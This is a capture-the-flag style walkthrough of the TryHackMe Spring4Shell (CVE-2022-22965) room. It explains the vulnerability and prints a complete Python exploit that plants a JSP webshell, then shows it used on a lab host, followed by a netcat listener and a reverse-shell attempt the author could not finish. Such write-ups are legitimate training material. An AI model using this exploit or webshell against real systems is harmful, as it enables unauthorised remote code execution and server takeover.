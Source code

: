 ```yaml
---
description: Exploiting the Java Spring Framework - https://tryhackme.com/room/spring4shell
---
```


# Spring4Shell: CVE-2022-22965

![](<../../../.gitbook/assets/image (26).png>)

## Background

In late March 2022, two remote command execution vulnerabilities in the Java [Spring framework](https://spring.io) were made public. The first of these vulnerabilities affects a component of the framework called "Spring Cloud Functions". The second, arguably more serious vulnerability, affects a component in  "Spring Core" —  the heart of the framework — thus significantly increasing the vulnerability's potential impact and earning it the name "Spring4Shell" (a play on [Log4Shell](https://tryhackme.com/room/solar), the name of a brutal vulnerability disclosed at the end of 2021).

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.\


## How does it work?

To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.

Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.\


Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.\


## Limitations

The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.

Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

* JDK 9+
* A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)\

* Apache Tomcat as a server for the Spring application, packaged as a WAR
* A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework\


It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

## Exploitation

{% hint style="danger" %}
You should _always_ review unknown exploits before running them.
{% endhint %}

Using this Proof of Concept Python Script:

{% code title="exploit.py" %}
```python
import requests
import argparse
from urllib.parse import urljoin

def exploit(url, filename, password, directory):
    headers = {"suffix":"%><!--//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    }

    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{password}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/{directory}&class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="


    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, f"{filename}.jsp")
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Shell Uploaded Successfully!\nYour shell can be found at: {shellurl}?pwd={password}&cmd=whoami")
        else:
            print("Exploit failed to upload")
    except Exception as e:
        print(e)
        pass




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Spring4Shell RCE Proof of Concept')
    parser.add_argument('url', help='Target URL')
    parser.add_argument("-f","--filename", help="Name of the file to upload (Default tomcatwar.jsp)", default="tomcatwar.jsp")
    parser.add_argument("-p","--password", help="Password to protect the shell with (Default: thm)", default="thm")
    parser.add_argument("-d","--directory", help="The upload path for the file (Default: ROOT)", default="ROOT")
    args = parser.parse_args()
    exploit(args.url, args.filename.split(".")[0], args.password, args.directory)
```
{% endcode %}

We can attack a vulnerable web server

![](<../../../.gitbook/assets/image (12).png>)

Lets look at the source code `ctrl + u`

```html
<!DOCTYPE HTML>
<html>
    <head> 
        <title>Vulnerable</title>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <script src="/assets/js/font-awesome.js"></script>
        <link rel="icon" type="image/png" href="/assets/favicon.png" />
        <link href="/assets/css/styles.css" rel="stylesheet" />
    </head>
    <body>
        <!-- Masthead-->
        <div class="masthead">
            <div class="masthead-content text-white">
                <div class="container-fluid px-4 px-lg-0">
                    <h1 class="fst-italic lh-1 mb-4">Our Website is Coming Soon</h1>
                    <p class="mb-5">We're working hard to finish the development of this site. Sign up below to receive updates and to be notified when we launch!</p>
                    <form id="contactForm" action="/" method="post">
                        <!-- Email address input-->
                        <div class="row input-group-newsletter">
                            <div class="col"><input class="form-control" required type="email" placeholder="Enter email address..." aria-label="Enter email address..." id="email" name="email" value="" /></div>
                            <div class="col-auto"><button class="btn btn-primary" id="submitButton" type="submit">Notify Me!</button></div>
                        </div>
                    </form>
                </div>
            </div>
        </div>
        <div class="social-icons">
            <div class="d-flex flex-row flex-lg-column justify-content-center align-items-center h-100 mt-3 mt-lg-0">
                <a class="btn btn-dark m-3" target="_blank" href="https://twitter.com/MuirlandOracle"><i class="fab fa-twitter"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://github.com/MuirlandOracle"><i class="fab fa-github"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://www.linkedin.com/in/agcyber/"><i class="fab fa-linkedin"></i></a>
            </div>
        </div>
        <!-- Bootstrap core JS-->
        <script src="/assets/js/bootstrap.bundle.min.js"></script>
    </body>
</html>
```

Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 18:

`<form id="contactForm" action="/" method="post">`

The action is "`/`", meaning that our target URL will simply be: `http://10.10.151.162/`.

{% hint style="info" %}
_**Note:** the trailing slash is very important here!_
{% endhint %}

## Attack

Lets check the script inputs real quick

![](<../../../.gitbook/assets/image (15).png>)

Looks like running `./exploit.py` [`http://10.10.151.162/`](http://10.10.151.162) should just work

![](<../../../.gitbook/assets/image (6).png>)

And it looks like we have command execution!

![](<../../../.gitbook/assets/image (25).png>)

We are definately root!

![](<../../../.gitbook/assets/image (7).png>)

Lets get a real shell now so we want to get burpsuite open and prepare our shell on our attackbox

On our attack box I am running `nc -lvnp 9001`

![](<../../../.gitbook/assets/image (9).png>)

Time to capture the id request in burp

First enable burp in foxy proxy

![](<../../../.gitbook/assets/image (2).png>)

Then we want to send the request we captured in burp to repeater

![](<../../../.gitbook/assets/image (18).png>)

After a few tries I found the box has python3

![](<../../../.gitbook/assets/image (11).png>)

On our web shell we are going to run a python reverse shell from Pentestmonkey

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

At this point I was having issues with bad characters and getting a reverse/bind shell working. I am not sure if it was a limitation of the environment but I plan on revisiting this.
